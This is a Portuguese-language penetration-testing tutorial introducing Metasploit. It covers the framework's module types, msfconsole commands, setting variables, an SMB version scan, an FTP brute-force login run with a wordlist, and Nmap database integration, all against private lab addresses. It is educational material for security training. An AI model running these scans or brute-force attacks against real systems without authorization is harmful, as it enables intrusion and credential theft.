

# Explorando o Alvo

Em PenTestes o passo de Explorar Vulnerabilidade, que também pode ser chamado de **Explorar o Alvo**, é o momento de testar todos os *hosts*, portas, serviços e vulnerabilidades encontradas nos passos anteriores. Este passo consiste em verificar efetivamente se é possível invadir o alvo. Se fosse um ataque malicioso, seria o passo em que o *hacker/cracker* iria invadir realmente a vítima, ou seja, para muitos esse passo é o ápice da cibersegurança ou da falta dela.

Então aqui, estera-se utilizar as vulnerabilidades encontradas nos *hosts* visando obter acesso ao alvo, e se possível obter controle total do mesmo, objetivando também descobrir novas partes do sistema (partes que não eram possíveis de visualizar/acessar até invadir o alvo).

Para explorar vulnerabilidades é necessário conhece-las, assim um profissional de cibersegurança sempre deve estar atualizado e à procura de novas vulnerabilidades e como explorá-las. Também, é extremamente recomendável que o PenTester tenha conhecimentos em:
* Programação;
* Engenharia Reversa;
* Sistemas Operacionais;
* Bancos de dados;
* Ferramentas automatizadas;
* etc.

## Metasploit

No contexto de ferramentas automatizadas, o [Metasploit](https://www.metasploit.com/) é com certeza a ferramenta mais famosa no que se refere à exploração de vulnerabilidades e efetivação em ganhar acesso ao alvo.

O Metasploit foi desenvolvido na linguagem de programação em [Ruby](https://www.ruby-lang.org/pt/) e na verdade ele é um *framework* (arcabouço). Assim o Metasploit é organizado em três partes:

* **Interface**: é a parte em que o PenTester interage com a ferramenta;

* **Módulos**: é o núcleo do Metasploit, responsável por executar a parte de exploração de vulnerabilidades e outras funcionalidades que podem ser agregadas à ferramenta;

* **Bibliotecas**:  são as bibliotecas utilizadas para dar suporte aos módulos e interface.

Uma boa maneira de entender/explorar o Metasploit é navegar na sua estrutura de diretório, tal como:

```console
$ ls /usr/share/metasploit-framework
app     documentation  metasploit-framework.gemspec  msfdb            msfupdate  Rakefile         script-recon
config  Gemfile        modules                       msf-json-rpc.ru  msfvenom   ruby             scripts
data    Gemfile.lock   msfconsole                    msfrpc           msf-ws.ru  script-exploit   tools
db      lib            msfd                          msfrpcd          plugins    script-password  vendor

```

> O caminho para o diretório do Metasploit pode mudar dependo da distribuição Linux, por exemplo, no Arch Linux ele foi instalado no ``/opt``.

Na estrutura de diretórios apresentada no exemplo anterior, é possível ver, por exemplo o executável da interface (``msfconsole``), o diretório das bibliotecas (``lib``) e dos módulos (``modules``).

Neste contexto, o diretório dos módulos, merece atenção especial, já que é nele que estão presentes as principais funções/ferramentas do Metasploit. Então, entender sua estrutura é altamente recomendável. A saída a seguir apresenta a estrutura de diretórios do subdiretório ``modules``:

```console
# ls /usr/share/metasploit-framework/modules
auxiliary  encoders  evasion  exploits  nops  payloads  post
```

A partir da saída anterior, é possível notar que há 7 subdiretórios, que por sua vez representam módulos/funcionalidades do Metasploit.  Cada um desses módulos serão empregados em diferentes fases do PenTeste. Esses módulos/diretórios são:

* **Exploit**: é o módulo que faz a exploração de vulnerabilidades; Há aproximadamente 2.500 *exploits*, em 20 categorias, tais categorias são referentes à software/sistemas existentes, e por exemplo podem ser vistas listando o conteúdo do diretório ``exploits`` (ver saída a seguir);

   ```console
   ls /usr/share/metasploit-framework/modules/exploits
   aix        bsd     example_linux_priv_esc.rb  example_webapp.rb  hpux   mainframe  openbsd  solaris
   android    bsdi    example.py                 firefox            irix   multi      osx      unix
   apple_ios  dialup  example.rb                 freebsd            linux  netware    qnx      windows
   ```
   A decisão de qual *exploit* utilizar, deve estar fundamentada pelo passo de Enumeração do Alvo (passo anterior), ou seja: Sistema Operacional, portas abertas, serviços e versões de softwares.

* **Payload**: esse módulo é responsável por injetar códigos maliciosos que serão submetidos no alvo através do *exploit*. Tais códigos maliciosos serão, por exemplo, os dados enviados (*payload*) dentro de pacotes gerados pelo *exploit*, durante a exploração das vulnerabilidades. Uma boa analogia entre *exploit* e *payload* é feita por SAGAR (2022), que diz que em um paralelo com o mundo real, o *exploit* seria parecido com um míssil e o *payload* seria a carga explosiva do míssil, ou seja, o míssil sem a carga explosiva não vale para muita coisa em uma gerra. Há vários tipos de *payload*, todavia é possível classificá-los basicamente em:

   * **Single** ou **Inline**: são *payloads* autocontidos, tudo que eles precisam estão neles. Isso é bom, mas esses podem ser bem grandes;
   * **Stagers** e **Stages**: Neste tipo, o código a ser executado pelo alvo pode ir em vários estágios, ou seja, em um primeiro momento pode ser enviado um ataque com um *payload* pequeno (chamado *stager*) e no segundo momento, com uma conexão já estabelecida, é enviado um *payload* maior (chamado *the stage*). Normalmente o *stager* é escrito em uma linguagem que gera um binário/executável muito pequeno (ex. *assembly*), assim o *stage* pode ser escrito em outra linguagem.
   > No Metasploit, um *payload* *single* tem '/' no nome, exemplo: ``windows/shell/reverse_tcp``; já um *staged* possui '_', exemplo: ``windows/shell_reverse_tcp``.

   > Existem mais tipos de *payloads*, para ler respeito desses acesse: <https://www.offensive-security.com/metasploit-unleashed/payload-types/.

* **No Operation** ou **No Operation Performed (NOP)**: são instruções em *assembly* que não fazem nada além de preencher espaços no *payload*, é um *padding*.

* **Encoders**: fornece ao Metasploit a capacidade de passar despercebido por sistemas de segurança como: antivírus, *firewall*, IDS, etc. Isso é feito cifrando o *payload* durante a exploração. Pegando a analogia do míssil, seria similar à ideia de enviar o míssil em baixa altitude, para ficar a baixo da linha do radar e assim não ser detectado. Então, a função do Encoders é ofuscar o código contido no ataque para que ele não seja detectado por nenhum sistema de segurança instalado no alvo.


* **Post**: contém vários *scripts* e ferramentas para ajudar em tarefas pós-invasão. Essas tarefas podem ser:
   * Escalar privilégios;
   * *OS Credential dumping*, que representa por exemplo, obter *logins* e senhas dos usuários do Sistema Operacional;
   * Roubar senhas salvas e *cookies*;
   * Obter *key logs*;
   * Executar *scripts*;
   * Manter o acesso no alvo.

* **Auxiliaries**: módulo que dá outras funcionalidades ao Metasploit, tais como: *scan*, *sniffing*, etc. Atualmente há mais de 1.000 módulos auxiliares no Metasploit.

Agora que foi apresentada a estrutura do Metasploit fica um pouco mais fácil entender como a ferramenta funciona. As seções seguintes tentaram explicar como utilizar essa poderosa ferramenta (interface e módulos), principalmente com o uso de exemplos.

> O objetivo aqui não é dissertar a respeito de todas as funções do Metasploit, mas sim apenas fazer uma introdução teórica e prática a respeito deste arcabouço. Então, para informações mais detalhadas leia os livros das referências no final desta página.

### MSFConsole - Interface do Metasploit

A interação do PenTester com o Metasploit se dá pelo comando ``msfconsole``, que é a interface do Metasploit. Assim, após executar tal comando o Pentester estará em um ambiente interativo, tal como mostra a saída a seguir:

```console
# msfconsole
 ______________________________________
/ it looks like you're trying to run a \
\ module                               /
 --------------------------------------
 \
  \
     __
    /  \
    |  |
    @  @
    |  |
    || |/
    || ||
    |\_/|
    \___/


       =[ metasploit v6.2.9-dev                           ]
+ -- --=[ 2230 exploits - 1177 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View advanced module options with
advanced

msf6 >

```

Na saída do exemplo anterior, é possível observar a versão do Metasploit (2.6.9), bem como a quantidade de módulos (*exploits*, *payloads*, etc) e uma bela arte ASCII (tal arte é aleatória).

O ``msfconsole`` parece um pouco complexo e confuso de inicio, mas depois de treinar um pouco a tendencia é que ele seja de fácil interação.

> Podem haver outras interfaces, mas a ``msfconsole`` é a mais utilizada e recomendável.

#### Comando ``help``

Como o Metasploit é bem vasto (vários módulos e funcionalidades), um comando muito útil é o ``help``, que irá apresentar os comandos e uma pequena descrição desses (ver imagem a seguir).

```console
msf6 > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    banner        Display an awesome metasploit banner
    cd            Change the current working directory
    color         Toggle color
    connect       Communicate with a host
    debug         Display information useful for debugging
    exit          Exit the console
...
```

Basicamente o comando ``help`` apresenta os comandos divididos da seguintes forma:

* Principais (Core);
* Módulos;
* Tarefas;
* Recursos de *script*;
* Banco de dados do *backend*;
* Credenciais do *backend*;
* Desenvolvimento.

O ``help`` também apresenta alguns exemplos de uso do Metasploit.


Sabendo os comandos apresentados pelo ``help``, é possível obter mais informações a respeito de opções, parâmetros e exemplos de algum comando específico utilizando a opção ``?`` no final do comando, por exemplo

```console
msf6 > route ?
Route traffic destined to a given subnet through a supplied session.

Usage:
  route [add/remove] subnet netmask [comm/sid]
  route [add/remove] cidr [comm/sid]
  route [get] <host or network>
  route [flush]
  route [print]

Subcommands:
  add - make a new route
  remove - delete a route; 'del' is an alias
  flush - remove all routes
  get - display the route for a given target
  print - show all active routes

Examples:
  Add a route for all hosts from 192.168.0.0 to 192.168.0.255 through session 1
    route add 192.168.0.0 255.255.255.0 1
    route add 192.168.0.0/24 1
...
```
Neste exemplo foi utilizado o comando ``route``, que pode ser utilizado para adicionar/remover/visualizar rodas para redes - isso pode ser útil durante testes.


Também, quando houver dúvida a respeito de como escrever algum comando, é possível utiliza a tecla ``tab`` (no estilo Linux), para autocompletar o comando ou ver os comandos similares. Veja o exemplo a seguir:

```console
msf6 > route
route add     route flush   route get     route print   route remove
```

Neste exemplo, foi digitado o comando ``route`` e depois foram pressionados duas vezes a tecla ``tab``, isso apresentou alguma possibilidades do comando ``route``, tal como ``route add``, para adicionar uma rota para uma rede.


#### Comando ``show``

Outro comando muito útil é o ``show`` que apresenta em mais detalhes as opções e parâmetros que podem ser utilizados em cada módulo. Desta forma, é bem comum utilizar o comando ``show``, com as seguintes opções:

* ``show auxiliary``: mostra o módulo as funções auxiliares disponíveis;

* ``show exploits``: mostra os *exploits* disponíveis;

* ``show payload``: mostra os *payloads* disponíveis. Caso o Pentester já tenha selecionado um *exploit*, serão apresentados apenas os *payloads* suportados por aquele *exploit*;

* ``show encoders``: mostra os *encoders* disponíveis;

* ``show nops``: motra todos os NOPS;

* ``show options``: mostra as opções disponíveis para um dado módulo;

* ``show targets``: mostra as opções de Sistemas Operacionais disponíveis para um dado *exploit*;

* ``show advanced``: apresentará opções avançadas de execução para um dado exploit.

O exemplo a seguir apresenta a saída do comando ``show exploits``:

```console
msf6 > show exploits

Exploits
========

   #     Name                                                                               Disclosure Date  Rank       Check  Description
   -     ----                                                                               ---------------  ----       -----  -----------
   0     exploit/aix/local/ibstat_path                                                      2013-09-24       excellent  Yes    ibstat $PATH Privilege Escalation
   1     exploit/aix/local/xorg_x11_server                                                  2018-10-25       great      Yes    Xorg X11 Server Local Privilege Escalation
   2     exploit/aix/rpc_cmsd_opcode21                                                      2009-10-07       great      No     AIX Calendar Manager Service Daemon (rpc.cmsd) Opcode 21 Buffer Overflow
   3     exploit/aix/rpc_ttdbserverd_realpath                                               2009-06-17       great      No     ToolTalk rpc.ttdbserverd _tt_internal_realpath Buffer Overflow (AIX)
   4     exploit/android/adb/adb_server_exec                                                2016-01-01       excellent  Yes    Android ADB Debug Server Remote Payload Execution
   5     exploit/android/browser/samsung_knox_smdm_url                                      2014-11-12       excellent  No     Samsung Galaxy KNOX Android Browser RCE
   6     exploit/android/browser/stagefright_mp4_tx3g_64bit                                 2015-08-13       normal     No     Android Stagefright MP4 tx3g Integer Overflow
   7     exploit/android/browser/webview_addjavascriptinterface                             2012-12-21       excellent  No     Android Browser and WebView addJavascriptInterface Code Execution
   8     exploit/android/fileformat/adobe_reader_pdf_js_interface                           2014-04-13       good       No     Adobe Reader for Android addJavascriptInterface Exploit
   9     exploit/android/local/binder_uaf                                                   2019-09-26       excellent  No     Android Binder Use-After-Free Exploit
   10    exploit/android/local/futex_requeue                                                2014-05-03       excellent  Yes    Android 'Towelroot' Futex Requeue Kernel Exploit

...
```

Um bom exercício é dar uma boa olhada/lida em todas as saídas geradas pelo comando ``show``, em todos os módulo, isso provavelmente vai de deixar mais confortável no uso do Metasploit.

<!--
### Comando ``connect``

O comando ``connect`` pode ser utilizado como se fosse um ``telnet`` ou ``netcat``. Assim, é possível se conectar à vítima e executar comandos, por exemplo.

```console
msf6 > connect 192.168.56.108 80
[*] Connected to 192.168.56.108:80 (via: 192.168.56.5:34973)

HTTP/1.1 400 Bad Request
Date: Mon, 12 Sep 2022 18:37:37 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 127.0.1.1 Port 80</address>
</body></html>

```

No exemplo anterior foi feita uma conexão ao host 192.168.56.108 para a porta HTTP, depois foi pressionada a tecla ``ENTER``, que retornou um ``Bad Request``, mas que já deu uma pista do servidor HTTP utilizado no alvo.
-->

### Comando ``info``

O comando ``info`` apresenta detalhes a respeito de um módulo específico. Por exemplo podemos ver os módulos do tipo Exploits com o comando ``show`` e escolher um para ver em detalhes com o comando ``info``, tal como é apresentado na saída a seguir:

```console
msf6 > info exploit/windows/ssh/putty_msg_debug

       Name: PuTTY Buffer Overflow
     Module: exploit/windows/ssh/putty_msg_debug
   Platform: Windows
       Arch:
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2002-12-16

Provided by:
  MC <mc@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Windows 2000 SP4 English
  1   Windows XP SP2 English
  2   Windows 2003 SP1 English

Check supported:
  No

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
  SRVPORT  22               yes       The SSH daemon port to listen on
  SSL      false            no        Negotiate SSL for incoming connections
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)

Payload information:
  Space: 400
  Avoid: 1 characters

Description:
  This module exploits a buffer overflow in the PuTTY SSH client that
  is triggered through a validation error in SSH.c. This vulnerability
  affects versions 0.53 and earlier.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2002-1359
  OSVDB (8044)
  http://www.rapid7.com/advisories/R7-0009.html
  http://www.securityfocus.com/bid/6407
```
Na saída anterior, são apresentadas informações como:
* Nome do ``exploit``;
* plataforma que ele afeta;
* versões do alvo;
* variáveis que podem ser configuradas para o uso deste (veremos isso a seguir);
* descrição;
* etc.

> Esse comando será muito útil na busca pelo entendimento dos módulos.

### Comando ``search``

Outro comando extremante útil para buscas em módulos do Metasploit é o ``search``, com ele é possível buscar por palavras em descrições, nomes, caminhos dos módulos do Metasploit. Para isto basta passar o comando, seguido de um termo de busca, e o resultado será tudo que foi encontrado e está relacionado com o termo utilizado na busca. Veja o exemplo a seguir:

```console
msf6 > search juniper

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank     Check  Description
   -  ----                                                 ---------------  ----     -----  -----------
   0  auxiliary/admin/networking/juniper_config                             normal   No     Juniper Configuration Importer
   1  post/networking/gather/enum_juniper                                   normal   No     Juniper Gather Device General Information
   2  auxiliary/dos/tcp/junos_tcp_opt                                       normal   No     Juniper JunOS Malformed TCP Option
   3  auxiliary/scanner/ssh/juniper_backdoor               2015-12-20       normal   No     Juniper SSH Backdoor Scanner
   4  exploit/windows/browser/juniper_sslvpn_ive_setupdll  2006-04-26       normal   No     Juniper SSL-VPN IVE JuniperSetupDLL.dll ActiveX Control Buffer Overflow
   5  exploit/windows/vpn/safenet_ike_11                   2009-06-01       average  No     SafeNet SoftRemote IKE Service Buffer Overflow


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/vpn/safenet_ike_11
```
Neste exmplo anterior, foi passado o termo de busca ``juniper``, que e foram retornados 5 resultados. Também é possível realizar a busca utilizando mais de um termo, como no exemplo a seguir:

```console
msf6 > search ssh juniper

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/juniper_backdoor  2015-12-20       normal  No     Juniper SSH Backdoor Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/ssh/juniper_backdoor
```

### Comando ``use``

Após as buscas, é possível informar para o Metasploit, qual módulo será utilizado para o teste de invasão. Isso é feito utilizando o comando ``use``, seguido do nome completo do módulo, ou do índice (``#``) retornado em uma busca com o comando ``search`` ou ``show``, por exemplo.

Então, imagine que queiramos executar o *scanner* de *backdoor* encontrado na busca do exemplo anterior (``search ssh juniper``), com o nome do módulo basta utilizar o comando ``use`` seguido deste nome ``auxiliary/scanner/ssh/juniper_backdoor`` ou do seu indice na busca, que neste caso é o ``0``. Veja a saída a seguir:

```console
msf6 > use auxiliary/scanner/ssh/juniper_backdoor
msf6 auxiliary(scanner/ssh/juniper_backdoor) >
```

No exemplo anterior dá para ver que o comando ``use`` carregou o módulo ``scanner/ssh/juniper_backdoor``, que agora está sendo indicado dentro do *prompt* de comando do Metasploit.

Depois de utilizar o ``use``, já dentro do módulo, é possível executar outros comandos, tais como:

* ``options``  - mostra as opções do módulo, principalmente a questão de variáveis que devem/podem ser configuradas (ver próxima seção);

  > É possível utilizar o comando ``options``, sem escolher um módulo, mas é extremamente comum utilizá-lo dentro do módulo.

* ``check`` - verifica se o *exploit* funciona no alvo, sem necessariamente explorá-lo - não são todos os módulos que suportam essa opção;

* ``run`` - executa o módulo auxiliar;

* ``exploit`` -  executa o módulo de *exploit*;

* ``back`` - sair do módulo.

Algumas opções podem estar disponíveis em um módulo e em outro não. Assim, é necessário analisar o módulo e ver suas funções e opções com os comandos ``help`` e principalmente ``info``.


### Variáveis no Metasploit

Muitos *exploits* do Metasploit utilizam variáveis para identificar, por exemplo o IP do alvo, portas, etc. Tais variáveis podem ser vistas com os comandos ``info`` e ``options`` (já dentro do módulo), tal como apresentado anteriormente. Todavia as principais variáveis normalmente são:

* ``LHOST`` - Local Host: indica o IP do *host* que esta fazendo o ataque/teste. Como o *host* do Pentester pode ter mais de uma interface de rede e essa pode ter mais de um endereço IP, pode ser necessário indicar qual IP será utilizado durante os testes;

* ``LPORT`` - Local Port: semelhante ao anterior, mas indica a porta de rede a ser utilizada do lado do atacante/Pentester. Muito utilizado para criar um *shell* reverso durante o ataque/teste;

* ``RHOST`` - Remote Host: Indica o IP do alvo, ou seja, da máquina que receberá o ataque/teste;

* ``RPORT`` - Remote Port: Indica a porta que será explorada, a porta do alvo/vítima.

As variáveis apresentadas anteriormente, bem como outras que podem existir, podem ser manipuladas através dos seguintes comandos:

* ``set``: configura uma variável para o módulo atual;

* ``setg``: configura uma variável, mas de forma global. Ou seja, o valor dela valerá para outros módulos (auxiliares e *exploits*);

* ``unset``: remove o valor de uma variável;

* ``unsetg``: remove o valor de uma variável global;

* ``get``: retorna o valor aplicado em uma variável;

* ``getg``: mesmo que o anterior, mas retorna em nível global.

Todos os comandos anteriores devem ser seguidos do nome da variável que se pretende usar.

Além do comando ``get``, é muito comum utilizar o comando ``options`` para verificar o valor da variável em um dado módulo.

> **Atenção! Alguns módulos exigem que algumas variáveis sejam configuradas para sua execução. Nestes casos, quando se tenta executar o módulo ele falhará e normalmente avisará que é necessário configurar as variáveis**.

O exemplo a seguir apresenta como entrar em um módulo, configurar o valor de uma variável, ver se o valor está correto e executar o módulo:

```console
msf6 > use auxiliary/scanner/ssh/juniper_backdoor
msf6 auxiliary(scanner/ssh/juniper_backdoor) > options

Module options (auxiliary/scanner/ssh/juniper_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                       oit
   RPORT    22               yes       The target port
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/ssh/juniper_backdoor) > set RHOSTS 192.168.56.1
RHOSTS => 192.168.56.1

msf6 auxiliary(scanner/ssh/juniper_backdoor) > options

Module options (auxiliary/scanner/ssh/juniper_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   192.168.56.1     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                       oit
   RPORT    22               yes       The target port
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/ssh/juniper_backdoor) > run

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/juniper_backdoor) >
```

Então, no exemplo anterior, foram realizadas os seguintes procedimentos:
* 1. Utilizar o módulo (``use auxiliary/scanner/ssh/juniper_backdoor``);
* 1. Ver as variáveis/opções do módulo (``options``);
* 1. Configurar a variável ``RHOSTS``, para testar o *host* 192.168.56.1 (``set RHOSTS 192.168.56.1``);
* 1. Ver se a variável foi configurada corretamente (``options``);
* 1. Executar o módulo Auxiliar (``run``).

> No exemplo foi utilizado o ``run``, pois o módulo é Auxiliar e não um módulo de Exploits.

A seguir serão apresentados alguns exemplos de uso do Metasploit

## Módulos Auxiliary

Como visto anteriormente o Metasploit tem mais funções do que executar *exploits*. Não será o nosso foco neste texto, mas a seguir são apresentados alguns exemplos de uso desse módulo:

### Exemplo A.1 - ``smb_version``

O módulo ``auxiliary/scanner/smb/smb_version`` realiza um *scan* procurando por informações de servidores SMB (arquivos e impressoras do Windows).
A seguir são apresentados os comandos e saídas para este tipo de *scan*:

```console
msf6 > search smb_version

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_version                   normal  No     SMB Version Detection


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smb/smb_version

msf6 > use 0
msf6 auxiliary(scanner/smb/smb_version) > options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                       oit
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_version) > setg RHOSTS 192.168.56.3
RHOSTS => 192.168.56.3
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.56.3:445      - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:2m 11s) (guid:{0f241112-5a45-4826-adf6-8fbfa2f79c79}) (authentication domain:METASPLOITABLE3)
[+] 192.168.56.3:445      -   Host is running Windows 2008 R2 Standard SP1 (build:7601) (name:METASPLOITABLE3) (workgroup:WORKGROUP)
[*] 192.168.56.3:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
No exemplo, foi identificado um Windows 2008 R2 com SP1 e execução. Lembrando que o protocolo SMB é constantemente atacado.

Um bom exercício é procurar por outros módulos relacionados com SMB, por exemplo ``auxiliary/scanner/smb/smb_enumusers`` e ``auxiliary/scanner/smb/smb_enumshares``, pesquise o que esses fazem e teste-os.

## Exemplo A.2 - ``ftp_login``

O módulo ``ftp_login`` realiza um ataque de força bruta contra servidores FTP. Assim, é necessário especificar para ele um arquivo de usuário/senha que será submetido ao servidor FTP alvo. Veja os comandos e saídas a seguir:

```console
msf6 > use auxiliary/scanner/ftp/ftp_login
msf6 auxiliary(scanner/ftp/ftp_login) > options

Module options (auxiliary/scanner/ftp/ftp_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
...
   password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
...
   RHOSTS            192.168.56.108   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Usin
                                                g-Metasploit
   RPORT             21               yes       The target port (TCP)
...
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.56.108
RHOSTS => 192.168.56.108
msf6 auxiliary(scanner/ftp/ftp_login) > set USERPASS_FILE /usr/share/wordlists/rockyou.txt
USERPASS_FILE => /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ftp/ftp_login) > run

[*] 192.168.56.108:21     - 192.168.56.108:21 - Starting FTP login sweep
[!] 192.168.56.108:21     - No active DB -- Credential data will not be saved!
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 123456: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 12345: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 123456789: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: password: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: iloveyou: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: princess: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 1234567: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: rockyou: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 12345678: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: abc123: (Incorrect: )
...
```

Neste exemplo foi utilizado o arquivo de senhas ``/usr/share/wordlists/rockyou.txt``, que estava disponível no Kali Linux.

> O arquivo com usuários/senhas pode ser feito por você (muitas informações podem vir do passo Obtendo Informações), ou pode ser baixado da Internet, há vários arquivos de usuários/senhas disponíveis.

## Integrando com Nmap

O Metasploit tem integração com banco de dados [PostgreSQL](https://www.postgresql.org/) e com o [Nmap](nmap), isso permite ter uma base de dados de respeito dos *scan* de rede disponíveis dentro do Metasploit, o que facilita muito o trabalho do Pentester.

### Iniciando banco de dados

Para isso é necessário iniciar o PostgreSQL (deduzindo que já está instalado). No [Kali](https://www.kali.org/) Linux isso pode ser feito com:

```console
# /etc/init.d/postgresql start
```
> Esse comando pode variar dependendo a distribuição. Também seria interessante colocar o banco de dados para ser inicializado no processo de *boot*.

### Criando tabelas Metasploit no banco de dados

Depois é necessário iniciar/criar as tabelas do Metasploit:

```console
# msfdb init
```
> Esse comando só precisa ser feito na primeira fez.

Feito isso é possível verificar o status do banco de dados do Metasploit com o comando ``db_status``, já dentro do ``msfconsole``.

### Realizando *scan* e consultando

Após iniciar o banco de dados, criar as tabelas é possível iniciar o uso do Nmap integrado com o Metasploit, por exemplo:

```console
msf6 > db_nmap -sT -O 192.168.56.108
[*] Nmap: Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 13:21 EDT
[*] Nmap: Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
[*] Nmap: Nmap done: 1 IP address (0 hosts up) scanned in 1.80 seconds
```

Então utilizando o comando ``db_nmap``, seguido das opções disponíveis do [Nmap](nmap), os dados obtidos nessas investigações serão salvas no banco de dados e posteriormente podem ser facilmente consultadas, por exemplo, com os comandos ``hosts`` e ``services``.

O comando ``hosts`` irá apresentar todos os *hosts* que estão na base de dados:

```console
msf6 > hosts

Hosts
=====

address         mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------         ---                ----  -------  ---------  -----  -------  ----  --------
192.168.56.1    0A:00:27:00:00:00
192.168.56.2    08:00:27:A5:22:89
192.168.56.5
192.168.56.108  08:00:27:d8:c7:e8        Linux                      server
```

Já o comando ``services`` apresentará, dados escaneados de um dado *host*:

```console
msf6 > services 192.168.56.108
Services
========

host            port  proto  name     state  info
----            ----  -----  ----     -----  ----
192.168.56.108  21    tcp    ftp      open   vsftpd 3.0.3
192.168.56.108  22    tcp    ssh      open   OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 Ubuntu Linux; protocol 2.0
192.168.56.108  23    tcp    telnet   open   Linux telnetd
